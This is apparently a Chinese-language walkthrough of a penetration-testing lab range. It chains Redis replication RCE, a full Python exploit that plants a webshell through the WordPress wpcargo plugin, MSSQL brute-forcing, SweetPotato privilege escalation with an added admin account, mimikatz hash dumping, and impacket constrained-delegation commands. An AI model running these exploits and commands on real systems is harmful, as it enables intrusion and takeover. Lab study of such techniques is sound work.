

# Flag1

还是先用fscan来进行扫描



发现了未授权的redis以及匿名的ftp，直接打reids的主从复制RCE


收到shell，用python提升为交互式shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

没看到flag，应该是要提权，先看看suid权限


base64具有suid权限，可以提权，但是只是读文件的

```
base64 "/home/redis/flag/flag01" | base64 --decode
```


# Flag2

拿到了第一个flag，看看ip，ipconfig和ifconfig都不行，那直接看/etc/hosts


内网是172.22.2.7，wget下一个fscan下来


扫描内网

```
cat result.txt

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.2
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.2.3      is alive
(icmp) Target 172.22.2.7      is alive
(icmp) Target 172.22.2.16     is alive
(icmp) Target 172.22.2.18     is alive
(icmp) Target 172.22.2.34     is alive
[*] Icmp alive hosts len is: 5
172.22.2.16:1433 open
172.22.2.34:445 open
172.22.2.16:445 open
172.22.2.18:445 open
172.22.2.3:445 open
172.22.2.34:139 open
172.22.2.16:139 open
172.22.2.34:135 open
172.22.2.3:139 open
172.22.2.18:139 open
172.22.2.18:80 open
172.22.2.16:135 open
172.22.2.3:135 open
172.22.2.16:80 open
172.22.2.18:22 open
172.22.2.7:80 open
172.22.2.7:22 open
172.22.2.7:21 open
172.22.2.34:7680 open
172.22.2.7:6379 open
172.22.2.3:88 open
[*] alive ports len is: 21
start vulscan
[*] NetInfo:
[*]172.22.2.16
   [->]MSSQLSERVER
   [->]172.22.2.16
[*] NetInfo:
[*]172.22.2.3
   [->]DC
   [->]172.22.2.3
[*] WebTitle: http://172.22.2.16        code:404 len:315    title:Not Found
[*] NetBios: 172.22.2.34     XIAORANG\CLIENT01              
[*] 172.22.2.3  (Windows Server 2016 Datacenter 14393)
[*] WebTitle: http://172.22.2.7         code:200 len:4833   title:Welcome to CentOS
[*] NetBios: 172.22.2.18     WORKGROUP\UBUNTU-WEB02         
[*] NetBios: 172.22.2.16     MSSQLSERVER.xiaorang.lab            Windows Server 2016 Datacenter 14393 
[*] NetInfo:
[*]172.22.2.34
   [->]CLIENT01
   [->]172.22.2.34
[*] NetBios: 172.22.2.3      [+]DC DC.xiaorang.lab               Windows Server 2016 Datacenter 14393 
[*] 172.22.2.16  (Windows Server 2016 Datacenter 14393)
[+] ftp://172.22.2.7:21:anonymous 
   [->]pub
[*] WebTitle: http://172.22.2.18        code:200 len:57738  title:又一个WordPress站点
已完成 20/21 [-] redis 172.22.2.7:6379 redis123 <nil> 
00 len:57738  title:又一个WordPress站点
```

发现内网172.22.2.18是一个`wordpress`，172.22.2.3是域控，172.22.2.16是域内的机器

用wpscan来扫一下这台`wordpress`


发现了wpcargo插件，可以用这个插件rce

```
import sys
import binascii
import requests

# This is a magic string that when treated as pixels and compressed using the png
# algorithm, will cause <?=$_GET[1]($_POST[2]);?> to be written to the png file
payload = '2f49cf97546f2c24152b216712546f112e29152b1967226b6f5f50'

def encode_character_code(c: int):
    return '{:08b}'.format(c).replace('0', 'x')

text = ''.join([encode_character_code(c) for c in binascii.unhexlify(payload)])[1:]

destination_url = 'http://172.22.2.18/'
cmd = 'id'

# With 1/11 scale, '1's will be encoded as single white pixels, 'x's as single black pixels.
requests.get(
    f"{destination_url}wp-content/plugins/wpcargo/includes/barcode.php?text={text}&sizefactor=.090909090909&size=1&filepath=/var/www/html/webshell.php"
)

# We have uploaded a webshell - now let's use it to execute a command.
print(requests.post(
    f"{destination_url}webshell.php?1=system", data={"2": cmd}
).content.decode('ascii', 'ignore'))
```


再写一个马


蚁剑连接一下


发现了数据库密码，用冰蝎去连一下数据库


需要手动查一下数据，这个数据库还有个flag02表，不知道为什么我这里没有


# Flag3

这里有一个密钥表，先保存下来，在之前的扫描结果看到还有一个mssql，用这个密码去爆破mssql

```
./fscan -h 172.22.2.16 -m mssql -pwdf password.txt -np
```


密码ELGNkOiC

用MDUT连一下


Xp_cmdshell提权后执行命令，但你直接传文件是会报错的，开了那个Ole之后就能正常上传了


Potato提权（[GitHub - uknowsec/SweetPotato: Modifying SweetPotato to support load shellcode and webshell](https://github.com/uknowsec/SweetPotato?tab=readme-ov-file)）

[GitHub - CCob/SweetPotato: Local Service to SYSTEM privilege escalation from Windows 7 to Windows 10 / Server 2019](https://github.com/CCob/SweetPotato)这个版本是不能在webshell下执行的


看到3389开启，添加一个管理员用户登录


```
C:/迅雷下载/SweetPotato.exe -a "net user DawnT0wn qwer1234! /add"
C:/迅雷下载/SweetPotato.exe -a "net localgroup administrators DawnT0wn /add"
```


上传sharphound收集域内信息，用域内账户提权后收集，不要用添加的用户，不然收集不到


在windows/system32下找到收集后到文件


# Flag4

MDUT下载下来的文件是空的，要用RDP直接拉下来


这里可以看到配置了MSSQL到DC到约束性委派，Adfind看一下

```
C:/ProgramData/Adfind.exe -b "DC=xiaorang,DC=lab" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" cn distinguishedName msds-allowedtodelegateto
```


发现了MSSQLSERVER到DC的cifs的约束委派

在本机配置一下host


传一个mimikatz上去抓一下hash


```
8f8402979658c3213d99ba1ceeffad39
```

用impacket包里面的脚本

```
python3 getST.py -dc-ip 172.22.2.3 -spn CIFS/DC.xiaorang.lab -impersonate administrator xiaorang.lab/MSSQLSERVER$ -hashes :8f8402979658c3213d99ba1ceeffad39

KRB5CCNAME=administrator.ccache python3 wmiexec.py -k xiaorang.lab/administrator@DC.xiaorang.lab -no-pass -dc-ip 172.22.2.3
```


